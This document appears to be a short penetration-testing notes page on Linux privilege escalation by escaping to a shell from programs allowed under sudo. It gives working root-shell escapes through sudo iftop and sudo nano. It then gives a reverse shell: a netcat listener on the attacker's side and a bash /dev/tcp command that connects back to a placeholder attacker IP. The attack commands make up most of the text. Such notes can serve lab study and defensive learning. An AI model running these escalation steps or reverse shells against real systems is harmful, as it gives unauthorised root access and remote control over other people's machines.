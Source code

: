 # shell escaping

start to know which process run with sudo privilege `sudo -l`

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

we will exploit all service

***

### Iftop

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/sbin/iftop
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### awk

<figure><img src="../../../.gitbook/assets/image 3 (1) (1).png" alt=""><figcaption></figcaption></figure>

***

> may command line not suitable when as a root by nano service so let’s try to take a reverse shell

### nano

<figure><img src="../../../.gitbook/assets/image 4 (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo nano
ctrl+R
ctrl+x
reset; sh 1>&0 2>&0
```

which open a root shell but it’s blind which u can see the result only so let’s take a reverse shell on our machine

```bash
# attacker machine
nc -nlvp 5253
```

```bash
# victim
bash -i >& /dev/tcp/AttackerIP/5253 0>&1
```

<figure><img src="../../../.gitbook/assets/image 5 (1).png" alt=""><figcaption></figcaption></figure>
